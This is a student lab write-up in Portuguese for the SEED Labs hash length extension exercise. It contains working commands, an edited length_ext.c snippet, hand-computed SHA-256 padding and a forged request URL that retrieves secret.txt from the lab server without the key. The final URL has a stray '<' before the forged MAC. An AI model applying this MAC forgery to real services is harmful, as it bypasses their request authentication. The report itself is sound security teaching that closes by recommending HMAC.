





# LOGBOOK10 – Crypto Hash Length Extension Attack Lab

## 1. Introdução

Neste relatório descrevemos o trabalho realizado no laboratório  
**SEED Labs – Hash Length Extension Attack**, cujo objetivo principal foi demonstrar como uma implementação insegura de MAC (`SHA256(key || message)`) pode ser explorada para gerar autenticações válidas **sem conhecer a chave secreta**.

Tal como no LOGBOOK9, seguimos a metodologia experimental sugerida pelo guião, analisando as Tasks **1, 2 e 3**.

---

## 2. Task 1 – Construção de um pedido autenticado

Nesta tarefa começámos por compreender o funcionamento do servidor:

- Cada pedido HTTP necessita de um parâmetro `mac` válido.
- O MAC é calculado como:

  ```
  SHA256(key:message)
  ```

- A chave associada ao nosso `uid` encontra-se em `key.txt` dentro do container do servidor.

### 2.1 Mensagem autenticada

Usámos:

```
myname=<NOME_ESCOLHIDO>
uid=<UID_DO_GRUPO>
lstcmd=1
```

Mensagem completa usada no cálculo do hash:

```
<KEY>:myname=<NOME>&uid=<UID>&lstcmd=1
```

**Mensagem real usada:**  
```
123456:myname=HenriqueGoncalves&uid=1001&lstcmd=1
```


### 2.2 Cálculo do MAC

Comando:

```bash
echo -n "123456:myname=HenriqueGoncalves&uid=1001&lstcmd=1" | sha256sum
```

**MAC obtido:**
```
07a03aa5148acc7bfdf8496387afa8d7286cb9282679fa244f93fe5052f2e993
```



### 2.3 Pedido válido enviado ao servidor

Comando:

```bash
curl "http://www.seedlab-hashlen.com/?myname=HenriqueGoncalves&uid=1001&lstcmd=1&mac=07a03aa5148acc7bfdf8496387afa8d7286cb9282679fa244f93fe5052f2e993"
```


### 2.4 Teste com MAC incorreto

Alterámos 1 byte do MAC e o servidor rejeitou o pedido como esperado.



---

## 3. Task 2 – Cálculo do Padding SHA-256

O objetivo desta tarefa é calcular corretamente o padding aplicado internamente pelo SHA256 à mensagem:

```
123456:myname=HenriqueGoncalves&uid=1001&lstcmd=1
```

### 3.1 Comprimento da mensagem

Contámos o número de caracteres da mensagem, lembrando que:

- Cada caractere ASCII corresponde a **1 byte**.
- A mensagem contém:
  - 6 caracteres para `123456`
  - 1 carácter para `:`
  - 7 caracteres para `myname=`
  - 17 caracteres para `HenriqueGoncalves`
  - 1 carácter para `&`
  - 4 caracteres para `uid=`
  - 4 caracteres para `1001`
  - 1 carácter para `&`
  - 7 caracteres para `lstcmd=`
  - 1 carácter para `1`

Somando:

- `6 + 1 + 7 + 17 + 1 + 4 + 4 + 1 + 7 + 1 = 49` bytes

Assim:

- `L = 49 bytes`
- `L_bits = L × 8 = 49 × 8 = 392 bits = 0x00000188`


### 3.2 Padding calculado

O padding do SHA-256 é composto por:

1. Um byte `0x80`;
2. Um certo número de bytes `0x00` (zeros);
3. 8 bytes finais que codificam o comprimento original em bits (aqui, 392) em **Big-Endian**.

Queremos que o tamanho total depois de adicionar o padding seja múltiplo de 64 bytes. Logo:

```
L + 1 + pad_zeros + 8 = múltiplo de 64
49 + 1 + pad_zeros + 8 = 64
pad_zeros = 6
```

Portanto, o padding é:

- 1 byte `0x80`
- 6 bytes `0x00`
- 8 bytes com o valor `L_bits = 392` em Big-Endian, isto é `0x0000000000000188`.

### 3.3 Padding final (em hex)

Escrevendo tudo seguido em hexadecimal:

```
80 00 00 00 00 00 00 00 00 00 00 00 00 01 88
```

Compactado:

```
800000000000000000000000000188
```

### 3.4 Padding para uso no URL (%XX)

Cada byte `xx` é representado no URL como `%xx`. Assim:

- `0x80` → `%80`
- `0x00` → `%00`
- `0x01` → `%01`
- `0x88` → `%88`

O padding a inserir no URL fica:

```
%80%00%00%00%00%00%00%00%00%00%00%00%00%01%88
```

---

## 4. Task 3 – Length Extension Attack

Esta tarefa demonstra que, conhecendo o MAC original, é possível:

- Usar esse MAC como **estado interno** do SHA-256,
- Continuar a função de hash com uma mensagem adicional,
- Produzir um MAC válido para uma extensão da mensagem original,
- Tudo isto **sem conhecer a chave secreta**.

### 4.1 Preparação do `length_ext.c`

Usámos o código fornecido no guião e substituímos:

- Os 8 valores `c.h[i]` pela divisão do nosso MAC em 8 words de 32 bits.

O MAC original foi:

```
07a03aa5148acc7bfdf8496387afa8d7286cb9282679fa244f93fe5052f2e993
```

Dividido em grupos de 8 dígitos hexadecimais:

- `07a03aa5`
- `148acc7b`
- `fdf84963`
- `87afa8d7`
- `286cb928`
- `2679fa24`
- `4f93fe50`
- `52f2e993`

Trecho do código atualizado:

```c
c.h[0] = htole32(0x07a03aa5);
c.h[1] = htole32(0x148acc7b);
c.h[2] = htole32(0xfdf84963);
c.h[3] = htole32(0x87afa8d7);
c.h[4] = htole32(0x286cb928);
c.h[5] = htole32(0x2679fa24);
c.h[6] = htole32(0x4f93fe50);
c.h[7] = htole32(0x52f2e993);
```

E substituímos a mensagem extra que queremos acrescentar:

```c
SHA256_Update(&c, "&download=secret.txt", 20);
```


### 4.2 Compilação e execução

Comandos usados:

```bash
gcc length_ext.c -o length_ext -lcrypto
./length_ext
```

**Novo MAC obtido:**  
```
<839f9d1215337f1f49bcf684ef8dc3dc7a805d95934cb093312db6534a2a8010>
```



### 4.3 Construção do URL final do ataque

O URL final contém:

1. Mensagem original  
2. Padding calculado  
3. A mensagem extra maliciosa  
4. O novo MAC forjado  

Estrutura:

```
http://www.seedlab-hashlen.com/
  ?myname=HenriqueGoncalves
  &uid=1001
  &lstcmd=1
  <PADDING>
  &download=secret.txt
  &mac=<NEW_MAC>
```

Com o padding concreto:

```
http://www.seedlab-hashlen.com/?myname=HenriqueGoncalves&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%01%88&download=secret.txt&mac=<839f9d1215337f1f49bcf684ef8dc3dc7a805d95934cb093312db6534a2a8010
```

### 4.4 Resultado do ataque

O servidor aceitou o MAC forjado e devolveu o conteúdo do ficheiro `secret.txt`, demonstrando que conseguimos estender um pedido autenticado sem conhecer a chave secreta.



---

## 5. Conclusão

Este laboratório evidenciou uma vulnerabilidade clássica quando se usa:

```
MAC = SHA256(key || message)
```

Sem proteção adicional (HMAC), o SHA-256 é vulnerável a **length extension attacks**, permitindo:

- Estender a mensagem autenticada,
- Criar um MAC válido sem conhecer a chave secreta,
- Comprometer a integridade e autenticidade dos pedidos.

O exercício permitiu compreender:

- O funcionamento interno do SHA-256,
- O papel crítico do padding,
- A necessidade de MACs robustos como o **HMAC(key, message)**.

---

